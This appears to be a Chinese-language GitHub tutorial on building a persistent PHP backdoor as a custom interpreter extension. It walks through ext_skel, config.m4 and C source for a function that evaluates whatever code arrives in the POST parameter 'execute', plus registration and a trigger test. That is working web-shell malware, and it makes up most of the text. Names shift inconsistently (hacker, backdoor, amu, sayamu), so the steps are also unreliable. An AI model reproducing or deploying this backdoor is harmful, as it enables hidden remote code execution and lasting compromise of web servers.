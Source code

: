 > php持续扩展后门，在PHP扩展中，我们主要关注4个hooks：`MINIT`＆`MSHUTDOWN`，以及`RINIT`和`RSHUTDOWN`。当解释器启动和停止时，M 以root身份执行（通常）。R 在作为服务器用户执行

#### 自定义函数触发方式

* 扩展编写

  * 扩展骨架生成

    `./ext_skel --extname=backdoor`

  * 修改*config.m4*文件

    **PHP_ARG_ENABLE** 说明

        第1个参数是我们扩展的名字，这里为hacker
        
        第2个参数是我们运行./configure 脚本时显要指定示的内容，这里没有配置，即为0
        
        第3个参数是我们在调用./configure –help 的 时候要指定显示的帮助信息，这里也没有配置，为0
    **PHP_NEW_EXTENSION**说明

    第1个参数是模块名字，这里为backdoor

    第2个参数表示的是编译模块需要的源文件名称 ，这里为backdoor.c

    如果我们的扩展使用了多个文件，便可以将这多个文件名罗列在函数的参数里，不同源文件之间以空格隔开， 比如：

    ```
    PHP_NEW_EXTENSION(sample, sample.c sample2.c sample3.c, $ext_shared)
    ```

    第3个参数表示的是编译的形式，这里的$ext_shared参数用来声明这个扩展不是一个静态模块，而是在php运行时动态加载的。

  * 修改 *backdoor.c*

    ```
    PHP_FUNCTION(sayhello)
    {
        char* method = "_POST";
        char* secret_string = "execute";
    
        #if PHP_MAJOR_VERSION < 7
            zval** arr;
            char* code;
            if (zend_hash_find(&EG(symbol_table), method, strlen(method) + 1, (void**)&arr) == SUCCESS) {
            HashTable* ht = Z_ARRVAL_P(*arr);
            zval** val;
            if (zend_hash_find(ht, secret_string, strlen(secret_string) + 1, (void**)&val) == SUCCESS) {
                code =  Z_STRVAL_PP(val);
            }
            zend_eval_string(code, NULL, (char *)"" TSRMLS_CC);
            }
        #else
            zval* arr,*code =NULL;
            if (arr = zend_hash_str_find(&EG(symbol_table), "_POST", sizeof("_POST") - 1)) {
                if (Z_TYPE_P(arr) == IS_ARRAY && (code = zend_hash_str_find(Z_ARRVAL_P(arr), secret_string, strlen(secret_string)))) {
                    zend_eval_string(Z_STRVAL_P(code), NULL, (char *)"" TSRMLS_CC);
                }
            }
        #endif
        return SUCCESS;
    }
    ```

    增加入口说明

    ```
    const zend_function_entry amu_functions[] = {
    	PHP_FE(confirm_amu_compiled,	NULL)		/* For testing, remove later. */
    	PHP_FE(sayhello, NULL)
    	PHP_FE_END	/* Must be the last line in amu_functions[] */
    };
    ```

  * 编译安装

* 验证

  ```
  pi@raspberrypi:/Data/apps/nginx/html $ cat index.php 
  <?php
  sayamu();
  ```

  ![trigger_exec](images/trigger_exec.png)

#### 全自动执行方式

* 扩展编写
* 验证
